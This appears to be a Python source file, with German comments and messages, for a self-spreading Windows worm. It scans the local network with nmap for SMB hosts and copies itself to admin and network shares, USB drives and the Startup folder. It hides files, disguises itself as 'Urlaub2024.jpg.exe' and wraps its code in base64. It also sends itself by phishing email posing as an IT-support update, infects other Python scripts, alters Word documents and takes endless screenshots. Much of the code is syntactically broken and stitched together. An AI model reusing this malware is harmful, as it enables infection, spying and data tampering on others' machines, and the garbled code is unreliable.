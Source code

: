 import shutil
import os
import keyboard
import time
import win32com.client
import sys
import subprocess
import pyautogui
import os
import random
import base64
import shutil
import socket
import nmap
import subprocess
import time


WORM_NAME = "Urlaub2024.jpg.exe"
HIDDEN_PATH = os.path.expanduser("~\\AppData\\Local\\Microsoft\\")
HIDDEN_FILE = os.path.join(HIDDEN_PATH, WORM_NAME)

try:

TARGET_DIRS = [
    os.path.expanduser("~\\Desktop"),
    os.path.expanduser("~\\Documents"),
    os.path.expanduser("~\\Downloads"),
    
]

elif:

TARGET_DIRS= [
    os.path.expanduser("~\\Desktop")
    os.path.expanduser("~\\Pictures")
]


AUTOSTART_PATH = os.path.expanduser(
    "~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
WORM_NAME = "Detrix.exe"
SMTP_SERVER = "192.168.1.100"  
SMTP_PORT = 25  
SENDER_EMAIL = "infiziert@testnetz.local"
RECIPIENT_EMAIL = "opfer@testnetz.local"




hidden_path = os.path.expanduser("~\\AppData\\Local\\Microsoft\\")
startup_path = os.path.expanduser("~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
usb_path = "E:\\"  # Beispiel für USB-Laufwerk

rnd1 = random.randint(1000, 9999)
worm_name = f"winupdate_{rnd1}.py"


junk_code = f"""
def fake_function_{rnd1}():
    var_{rnd1} = {random.randint(1, 100)}
    var_{rnd1})
"""


payload_code = f"""
def real_payload_{rnd1}():
     Version {rnd1}")
"""

code_blocks = [junk_code, payload_code]
random.shuffle(code_blocks)
final_code = "\n".join(code_blocks)


encoded_code = base64.b64encode(final_code.encode()).decode()

wrapper_code = f"""
import base64
exec(base64.b64decode('{encoded_code}').decode())
"""


filenames = [
    os.path.join(hidden_path, worm_name),
    os.path.join(startup_path, worm_name),  # Autostart
    os.path.join(usb_path, worm_name)  # USB-Verbreitung
]


for filename in filenames:
    with open(filename, "w") as f:
        f.write(wrapper_code)
    print(f"➡ Wurm kopiert nach: {filename}")


if os.path.exists(filenames[1]):
    os.startfile(filenames[1])


def find_targets():
    """ Sucht nach anderen PCs im Netzwerk """
    nm = nmap.PortScanner()
    ip_range = socket.gethostbyname(socket.gethostname()) + "/24"
    nm.scan(hosts=ip_range, arguments="-p 445 --open")  # SMB-Port
    return [host for host in nm.all_hosts() if nm[host].state() == "up"]

def infect_target(target_ip):
    """ Versucht, den Wurm auf ein anderes System zu kopieren """
    remote_path = f"\\\\{target_ip}\\C$\\Users\\Public\\{worm_name}"
    try:
        shutil.copy(worm_name, remote_path)
        
    


targets = find_targets()
for target in targets:
    infect_target(target)


def infect_usb():
    """ Versucht, den Wurm auf ein USB-Laufwerk zu kopieren """
    try:
        if os.path.exists(usb_path):
            shutil.copy(worm_name, usb_path)
            
    except Exception as e:
        

infect_usb()



def hide_file():
    """ Macht die Datei unsichtbar in Windows """
    try:
        subprocess.call(["attrib", "+H", worm_name])  # Setzt das "Hidden"-Attribut
        
    except Exception as e:
        

hide_file()



from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

WORM_NAME = "WurmTest.exe"
SMTP_SERVER = "192.168.1.100"  # Ersetze mit IP des Test-Mailservers
SMTP_PORT = 25  # Port für unverschlüsseltes SMTP
SENDER_EMAIL = "infiziert@testnetz.local"
RECIPIENT_EMAIL = "opfer@testnetz.local"


def send_infected_email():
    msg = MIMEMultipart()
    msg['From'] = SENDER_EMAIL
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Dringend: Email durch Software !"

    body = "Hallo,\n\nBitte führen Sie das beigefügte Update aus. Es behebt kritische Sicherheitsprobleme.\n\nViele Grüße,\nIT-Support"
    msg.attach(MIMEText(body, 'plain'))

  
    attachment = open(WORM_NAME, "rb")
    part = MIMEBase('application', 'octet-stream')
    part.set_payload(attachment.read())
    encoders.encode_base64(part)
    part.add_header('Content-Disposition', f"attachment; filename={WORM_NAME}")
    msg.attach(part)
    attachment.close()

    
    try:
        server = smtplib.SMTP(SMTP_SERVER, SMTP_PORT)
        server.sendmail(SENDER_EMAIL, RECIPIENT_EMAIL, msg.as_string())
        server.quit()
        print("[+] Infizierte E-Mail gesendet!")
    except Exception as e:
        print(f"[-] Fehler beim Senden: {e}")


if __name__ == "__main__":
    send_infected_email()

def spread():

    worm_path = os.path.abspath(__file__)

    if not os.path.exists(HIDDEN_FILE):
        shutil.copy(worm_path, HIDDEN_FILE)
        print(f"[+] Wurm versteckt in: {HIDDEN_FILE}")

    for target in TARGET_DIRS:
        new_path = os.path.join(target, WORM_NAME)
        if not os.path.exists(new_path):
            shutil.copy(HIDDEN_FILE, new_path)
            print(f"[+]: {new_path}")

    drives = [f"{d}:\\" for d in "DEFGHIJKLMNOPQRSTUVWXYZ" if os.path.exists(f"{d}:\\")]
    for drive in drives:
        usb_path = os.path.join(drive, WORM_NAME)
        if not os.path.exists(usb_path):
            shutil.copy(HIDDEN_FILE, usb_path)
            print(f"[+]: {usb_path}")


def infect_other_scripts():
    for root, _, files in os.walk(os.path.expanduser("~")):
        for file in files:
            if file.endswith(".py") and file != WORM_NAME:
                target_path = os.path.join(root, file)
                with open(target_path, "r", encoding="utf-8") as f:
                    content = f.read(
                if "PhantomByte" not in content:
                    with open(target_path, "w", encoding="utf-8") as f:
                        f.write(content + f"\n# PhantomByte\n{open(__file__).read()}")


def infect_word_docs():
    """ Fügt sich in alle Word-Dateien ein """
    word = win32com.client.Dispatch("Word.Application")
    word.Visible = False

    for folder in TARGET_DIRS:
        for file in os.listdir(folder):
            if file.endswith(".docx") or file.endswith(".doc"):
                file_path = os.path.join(folder, file)
                try:
                    doc = word.Documents.Open(file_path)
                    doc.Content.InsertAfter("\n\n PhantomByte war hier!")
                    doc.Save()
                    doc.Close()
                    print(f: {file_path}
                    ")
                except Exception as e:
                    print(f"[-] {file_path}: {e}")

import os

    network_shares = ["\\\\192.168.1.100\\freigabe", "\\\\192.168.1.101\\public"]
    for share in network_shares:
        try:
            os.system(f'copy {__file__} {share}\\Urlaub2024.jpg.exe')
            print(f"[+] Wurm verbreitet auf {share}")
        except Exception as e:
            print(f"[-] Fehler bei {share}: {e}")

    word.Quit()
for target in TARGET_DIRS:
    new_path = os.path.join(target, WORM_NAME)
    if not os.path.exists(new_path):
        shutil.copy(HIDDEN_FILE, new_path)
        print(f"[+] {new_path}")

WORM_NAME = "WurmTest.exe"
TARGET_SHARE = r"\\192.168.1.102\Freigabe"  # Beispiel-IP des Opfer-PCs

def spread_via_smb():
    try:
        dest_path = os.path.join(TARGET_SHARE, WORM_NAME)
        shutil.copy(WORM_NAME, dest_path)
        print(f"[+] Wurm nach {dest_path} kopiert!")
    except Exception as e:
        print(f"[-] Fehler beim Kopieren: {e}")

if __name__ == "__main__":
    spread_via_smb()



def self_modify():

    global TARGET_DIRS
    if random.choice([True, False]):
        new_dir = os.path.expanduser("~\\Videos")
        TARGET_DIRS.append(new_dir)
        print(f"[+] : {TARGET_DIRS}")



def take_screenshot():
    while True:
        screenshot = pyautogui.screenshot()
        screenshot.save(f"C:\\Users\\Public\\screenshot_{time.time()}.png")
        time.sleep(0.01)

take_screenshot()


def enable_autostart():
    if not os.path.exists(AUTOSTART_PATH)
        shutil.copy(HIDDEN_FILE, AUTOSTART_PATH)
        print(f"[+]  {AUTOSTART_PATH}")


def hide_file():

    try:
        subprocess.call(["attrib", "+H", HIDDEN_FILE])
        print(f"[+]
    except:
        print("[-]


def run_worm():
    

    enable_autostart
    hide_file()




if __name__ == "__main__":
    run_worm()


